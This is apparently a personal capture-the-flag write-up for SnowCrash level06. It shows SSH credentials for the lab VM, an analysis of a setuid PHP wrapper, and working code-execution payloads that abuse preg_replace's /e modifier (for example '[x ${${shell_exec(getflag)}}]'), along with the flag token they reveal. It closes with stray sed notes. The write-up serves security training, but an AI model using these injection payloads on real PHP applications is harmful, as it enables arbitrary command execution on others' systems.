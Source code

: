 ssh level06@10.12.100.98 -p 4242
password: viuaaale9huek52boumoomioc

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

using strings to inspect the binary
```
level06@SnowCrash:~$ strings level06

/usr/bin/php
/home/user/level06/level06.php
```

level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty

the binary uses a php script, it takes two arguments, but uses only the first as a file name and reads from it.

level06@SnowCrash:~$ echo "aaa" > /tmp/output
level06@SnowCrash:~$ ./level06 /tmp/output
aaa

level06@SnowCrash:~$ echo "ls" > /tmp/output
level06@SnowCrash:~$ ./level06 /tmp/output
ls

level06@SnowCrash:~$ echo "$(ls)" > /tmp/output
level06@SnowCrash:~$ ./level06 /tmp/output
level06
level06.php

so find a why to inject getflag, so we should understand the regex thing to reverse the process...

note: use https://regexr.com/ 

```

<?php

function y($m) 
{ 
    $m = preg_replace("/\./", " x ", $m); // replace . with x
    $m = preg_replace("/@/", " y", $m); // replace @ with y
     return $m; 
}
function x($y, $z)
{
    $a = file_get_contents($y);                             // preg_replace(patterns, replacements, input)
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // matches a [ x space ( string ) ]
    $a = preg_replace("/\[/", "(", $a);                     // replace [ with (
    $a = preg_replace("/\]/", ")", $a);                     // replace ]  with )
    
    return $a;
}

$r = x($argv[1], $argv[2]);

print $r;

?>

```

so we adapt our command to matche the pattern: [ x space ( command ) ]



 we copied the php script to the host machine in order to format it and clearly read it and test it.

copy the php script to another machine and run it
```
PHP Warning:  preg_replace(): The /e modifier is no longer supported,
use preg_replace_callback instead in level06.php on line 12
```

So we search about the The /e modifier in google and we found out that it's deprecated because it contains a vulnerability,
now we just need to exploit it, we used shell_exec php function that execute shell commands
and use the return as variable so php would throw an error with the return.

```
level06@SnowCrash:~$ echo "[x \${\${shell_exec(getflag)}}]" > /tmp/getflag06
level06@SnowCrash:~$ ./level06 /tmp/getflag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1
```




The preg_replace() function returns a string or array of strings where all matches of a pattern
 or list of patterns found in the input are replaced with substrings.

```
<?php
$str = 'this is 42';
$pattern = '/42/i';
echo preg_replace($pattern, '1337', $str);
?>
```

google: preg_replace /e exploit

The /e modifier allows a second argument to be evaluated as a PHP expression.
https://stackoverflow.com/questions/33093133/exploiting-preg-replace-e-modifier-in-php


Exploiting the code:
To exploit the code, all the attacker has to do is provide some PHP code to execute, 
generate a regular expression which replaces some or all of the string with the code, and set the `e` modifier on the regular expression/pattern

Based on the example above, the attacker can execute the id shell command using the system() function in PHP.
https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

echo '[x {${system(getflag)}}]' > /tmp/output

echo '[x {${}}]' > /tmp/output
https://www.php.net/manual/en/language.types.string.php


echo '[x ${`getflag`}]' > /tmp/test2
echo '[x ${(`getflag`)}]' > /tmp/a
echo '[x {${(`getflag`)}}]' > /tmp/test1

➜   echo foo8www |sed 's/\(.*\)8\(.*\)/=\2/' 
=www
➜   echo foo8www |sed 's/\(.*\)8\(.*\)/\2/'  
www
➜   echo foo8www |sed 's#\(.*\)8\(.*\)#\2#' 

echo "123.456.78" |sed 's/\([0-9]*\)\.\([0-9]*\)\.\([0-9]*\)/\2/'







